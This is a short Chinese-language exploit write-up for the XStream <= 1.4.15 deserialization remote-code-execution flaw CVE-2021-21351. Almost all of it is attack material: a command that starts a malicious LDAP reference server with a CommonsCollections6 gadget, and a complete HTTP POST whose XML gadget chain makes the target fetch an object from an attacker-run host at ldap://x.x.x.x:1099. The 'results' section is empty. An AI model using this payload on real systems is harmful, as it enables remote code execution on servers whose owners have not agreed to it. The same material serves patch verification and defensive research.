

# Xstream <= 1.4.15 反序列化RCE（CVE-2021-21351）

## 漏洞描述

Xstream <= 1.4.15 反序列化RCE， JNDI注入

## writeup

- 待执行命令 

```
touch /tmp/success
```

- 开启恶意JNDI服务（RMI/LDAP）

```
java -cp fastjson_tool.jar fastjson.LDAPRefServer2 1099 CommonsCollections6 "touch /tmp/success"
```

- POC

```
POST /main.jsp HTTP/1.1
Host: x.x.x.x:1234
Content-Length: 3185
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x:1234
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://x.x.x.x:1234/test.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>ldap://x.x.x.x:1099/Object</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

## 复现结果

